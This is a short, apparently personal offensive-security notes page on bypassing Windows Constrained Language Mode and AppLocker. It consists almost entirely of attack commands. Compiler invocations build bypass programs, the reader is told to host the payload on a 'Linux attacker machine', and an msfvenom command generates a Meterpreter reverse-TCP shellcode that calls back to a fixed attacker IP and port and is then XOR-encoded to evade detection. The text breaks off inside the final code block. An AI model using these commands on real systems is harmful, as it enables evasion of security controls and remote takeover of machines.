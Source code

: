 # clm and applocker bypass
```bash
c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /reference:"C:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll" C:\users\dhanush\Desktop\bypassclm.cs
C:\Users\dhanush\Desktop>c:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe c:\users\dhanush\Desktop\program3.cs
```

# ** HOST it in the Linux attacker machine**

# ✔️ ** Use only windows/meterpreter/reverse_tcp payload in this ,x64 payloads dont work with InstallUtil**
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.130.136 LPORT=8999 -f raw > p.bin
python3 xorenc.py pa.bin
